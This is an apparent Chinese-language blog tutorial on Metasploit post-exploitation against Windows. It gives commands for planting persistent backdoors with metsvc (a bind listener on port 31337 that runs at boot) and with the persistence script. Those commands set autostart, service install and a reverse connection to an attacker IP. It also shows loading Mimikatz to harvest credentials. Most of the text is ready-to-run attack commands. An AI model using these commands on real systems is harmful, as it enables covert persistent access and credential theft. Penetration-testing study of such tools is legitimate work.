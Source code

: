 #### <a id="_569"/>持久后门

##### <a id="metsvc_570"/>metsvc

```
 run metsvc -A       //   删除 -r 

```

<img src="https://img-blog.csdnimg.cn/20200725170648976.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/><br/>
这个命令直接会生成系统的进程，名称为metsvc.exe，监听31337端口<br/>
并且开机会自己启动，但是缺点就是端口不能自己配置，上传的exe文件也不能更改名称。

连接后门

```

 set PAYLOAD windows/metsvc_bind_tcp 
 set LPORT 31337 
 set RHOST 1.1.1.1

```

<img src="https://img-blog.csdnimg.cn/20200725172801885.png" alt=""/><br/>
卡了好久都没拿到shell，这个模块估计是不宰维护了

##### <a id="persistence_588"/>persistence

查看一下参数的配置项<br/>
<img src="https://img-blog.csdnimg.cn/20200725174154849.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/>

```
-A 默认的连接方式为exploit/multi/handler
-S  作为一个系统服务进程工作在系统上
-X 自动执行当系统开机
-i 延迟时间，当服务运行后隔n秒执行回连
-p 端口
-r 回连的ip地址，也就是kali的地址

```

示例：

```
 run persistence -X -i 10 -p 4444 -r 1.1.1.1 
 run persistence -U -i 20 -p 4444 -r 1.1.1.1 
 run persistence -S -i 20 -p 4444 -r 1.1.1.1

```

#### <a id="Mimikatz__608"/>Mimikatz 扩展

需要获得system权限

```
load mimikatz 

load的新命令如下：
 wdigest 
 kerberos
 msv
 ssp
 tspkg
 ivessp

```
